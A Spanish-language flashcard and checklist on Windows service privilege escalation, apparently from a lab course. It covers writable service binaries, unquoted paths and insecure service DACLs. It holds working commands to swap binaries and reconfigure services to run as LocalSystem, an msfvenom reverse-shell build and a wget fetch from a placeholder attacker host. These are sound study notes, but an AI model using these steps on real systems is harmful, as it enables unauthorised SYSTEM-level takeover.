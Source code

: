 ### Flashcard — Windows Services Privilege Escalation

---

#### Conceptos clave

* **SCM (Service Control Manager):** gestiona inicio/parada/configuración de servicios.
* **Parámetros críticos (`sc qc <servicio>`):**

  * `BINARY_PATH_NAME`: ejecutable que lanza el servicio.
  * `SERVICE_START_NAME`: usuario que lo ejecuta.
* **DACLs:** controlan permisos sobre el servicio y su ejecutable.

---

#### Vectores de escalada

1. **Insecure Service Executable Permissions**

   * Si `icacls` muestra permisos de escritura (`M` o `F`) para *Everyone* o *Users* sobre el binario del servicio.
   * Pasos:

     ```cmd
     icacls C:\Path\service.exe
     move service.exe service.exe.bkp
     move rev-svc.exe service.exe
     icacls service.exe /grant Everyone:F
     sc stop <service>
     sc start <service>
     ```
   * Shell con los privilegios del usuario configurado en `SERVICE_START_NAME`.

---

2. **Unquoted Service Path**

   * Ocurre cuando `BINARY_PATH_NAME` no está entre comillas y contiene espacios.
   * SCM interpreta el path progresivamente:

     * `C:\MyPrograms\Disk.exe`
     * `C:\MyPrograms\Disk Sorter.exe`
     * `C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe`
   * Si el directorio es *world-writable* (`icacls` con `AD` o `WD` para Users), colocar payload como `Disk.exe`.
   * Reiniciar servicio para ejecución.

---

3. **Insecure Service Permissions (Service DACL)**

   * Si el grupo `Users` tiene `SERVICE_ALL_ACCESS` sobre un servicio (`accesschk64.exe -qlc <servicio>`).
   * Se puede reconfigurar el servicio:

     ```cmd
     sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc.exe" obj= LocalSystem
     sc stop THMService
     sc start THMService
     ```
   * Resultado: ejecución como **SYSTEM**.

---

#### Payloads

* Generar reverse shell en formato **exe-service**:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP_ATACANTE> LPORT=<PUERTO> -f exe-service -o rev-svc.exe
```

* Transferir con PowerShell:

```powershell
wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe
```

---

#### Notas

* Usar `sc.exe` en PowerShell (evitar colisión con alias `sc`).
* Siempre verificar permisos:

  * `icacls` → permisos sobre ejecutable.
  * `accesschk64.exe` → permisos sobre servicio.
* Unquoted paths solo explotables si el directorio es *writable* por usuarios no privilegiados.

---

Esta flashcard cubre **los tres escenarios de escalada más comunes vía servicios**:

* Ejecutable inseguro
* Ruta sin comillas
* Permisos inseguros en el servicio

---

### Checklist Rápido — Escalada de Privilegios vía Servicios (Windows)

| Vector                           | Condición que lo habilita                              | Detección                                     | Explotación                                                              |
| -------------------------------- | ------------------------------------------------------ | --------------------------------------------- | ------------------------------------------------------------------------ |
| **Insecure Service Executable**  | Binario del servicio con permisos de escritura         | `icacls C:\Path\service.exe`                  | Reemplazar binario → `sc stop/start <svc>`                               |
| **Unquoted Service Path**        | `BINARY_PATH_NAME` sin comillas y con espacios         | `sc qc <svc>` + `icacls "C:\Dir Con Espacio"` | Drop payload `Disk.exe` en directorio writable                           |
| **Insecure Service Permissions** | DACL del servicio permite `SERVICE_ALL_ACCESS` a Users | `accesschk64.exe -qlc <svc>`                  | `sc config <svc> binPath= "rev.exe" obj= LocalSystem` + `sc start <svc>` |

---

